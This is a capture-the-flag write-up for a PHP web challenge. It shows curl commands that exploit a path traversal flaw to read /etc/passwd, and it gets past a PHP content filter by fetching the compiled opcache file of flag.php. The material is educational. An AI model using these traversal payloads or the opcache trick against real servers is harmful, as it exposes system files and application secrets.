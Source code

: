 # carthagods - 496pts - 10 solves 
Author: rekter0, Dali

> Salute the carthagods!
> 
> Hints
> 1. [redacted source](./src)

---

## Exploit

The challenge provided the redacted sourcecode as hints. 

.htaccess
```
...
RewriteRule ^([a-zA-Z0-9_-]+)$ index.php?*REDACTED*=$1 [QSA]
```

index.php
```php
...
<?php
  if(@$_GET[*REDACTED*]){
    $file=$_GET[*REDACTED*];
    $f=file_get_contents('thecarthagods/'.$file);
    if (!preg_match("/<\?php/i", $f)){
        echo $f;
    }else{
      echo 'php content detected';
    }
  }
?>
...
```

The php script accepts user provided `$file` path without any sanitation, however the GET parameter is redacted.

The `.htaccess` file rewrite the path to index.php with the GET parameter. Lets try the folder `thecarthagods` as shown in the php file.

```bash
curl http://carthagods.3k.ctf.to:8039/thecarthagods
```

We got the token
```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://carthagods.3k.ctf.to:8039/thecarthagods/?eba1b61134bf5818771b8c3203a16dc9=thecarthagods">here</a>.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at carthagods.3k.ctf.to Port 8039</address>
</body></html>
```

With the token we can do path traversal
```bash
curl "http://carthagods.3k.ctf.to:8039/index.php?eba1b61134bf5818771b8c3203a16dc9=../../../../../etc/passwd"
```
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

However we cannot print the content of `flag.php` directly
```bash
curl "http://carthagods.3k.ctf.to:8039/index.php?eba1b61134bf5818771b8c3203a16dc9=../flag.php"
```
```
<textarea class="label-input100" style="color:black;width: 100%;height: 300px;">php content detected             </textarea>
```

From the phpinfo provided we can know opcache is enabled, with `opcache.file_cache` set to `/var/www/cache/`. Maybe we can get the compiled version of `flag.php` and get its content.

The opcache will store the cache in the format `/var/www/cache/<system_id>/path/to/file.php.bin`, with system ID generated from PHP version, Zend version etc. Therefore, I spin up a Ubuntu VM and install the same version of php, enable opcache to get the same system ID.

The system ID is: `e2c6579e4df1d9e77e36d2f4ff8c92b3`

```bash
curl "http://carthagods.3k.ctf.to:8039/index.php?eba1b61134bf5818771b8c3203a16dc9=../../../../var/www/cache/e2c6579e4df1d9e77e36d2f4ff8c92b3/var/www/html/flag.php.bin" --output -
```
```html
...
<textarea class="label-input100" style="color:black;width: 100%;height: 300px;">OPCACHEe2c6579e4df1d9e77e36d2f4ff8c92b3�x��_Jqҍ@������������������������_���Ӛ��_/var/www/html/flag.php������/var/www/html/flag.php1����q��������d!=
VPyi0���Y�Į��{�opcache_get_statush���JK��&3k{Hail_the3000_years_7hat_are_b3h1nd}`Lq�(��<iframe width="560" height="315" src="https://www.youtube.com/embed/y8zZXMLBin4" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>֖|�flag                                          </textarea>
...
```